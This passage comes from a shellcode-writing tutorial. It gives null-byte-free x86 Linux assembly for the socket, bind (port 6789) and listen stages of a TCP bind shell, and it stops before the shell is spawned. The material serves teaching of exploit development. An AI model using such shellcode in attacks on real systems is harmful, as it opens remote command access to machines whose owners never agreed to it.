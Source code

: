 
## Phase 3: Writing shellcode that creates a TCP bind shell
Now that we have an understanding of what is happening at an assembly level behind the scenes we will convert it into usable shellcode.  Things to keep in mind here is that we cannot have any null bytes, size matters, and that the port number should be configurable.

### socket
We start by establishing a socket using socketcall.  This will return to us a sockfd identifier that we will need to save for use in future calls.
```nasm
xor eax, eax        ; zero out eax
mov ebx, eax        ; zero out ebx
push eax            ; push 0 to stack (protocol: 0 (nonblocking))
mov al, 0x66        ; socketcall
mov bl, 1           ; sys_socket
push ebx            ; push 1 to stack (type: SOCK_STREAM)
push 2              ; domain: AF_INET
mov ecx, esp        ; save pointer to stack
int 0x80
```

### bind
This is where we bind the socket previously created to the local interface prior to start listening for connections.
```nasm
mov edi,eax         ; save sockfd
mov al,0x66         ; socketcall
pop ebx             ; sys_bind - grab 2 from stack
pop ebx             ; take 1 off stack
inc ebx

push word 0x851a    ; port 6789 (reverse byte order)    ; sockaddr struct
push word 2         ; AF_INET                           ; sockaddr struct
mov ecx,esp         ; save pointer to struct in ecx     ; sockaddr struct

push 0x10           ; struct length
push ecx            ; push pointer to struct
push edi            ; push sockfd
mov ecx,esp         ; save stack pointer
int 0x80
```

### listen
At this point we start listening for connections on our specified port.  The backlog parameter defines the allowed queue length of pending connections to our sockfd.  For this example I just set it to 1 but it could be more if multiple connections are wanted. 
```nasm
mov al, 0x66        ; socketcall
mov bl, 4           ; sys_listen
push 1              ; parameter: backlog
push edi            ; parameter: sockfd
mov ecx,esp         ; save pointer to stack to ecx
int 0x80
```

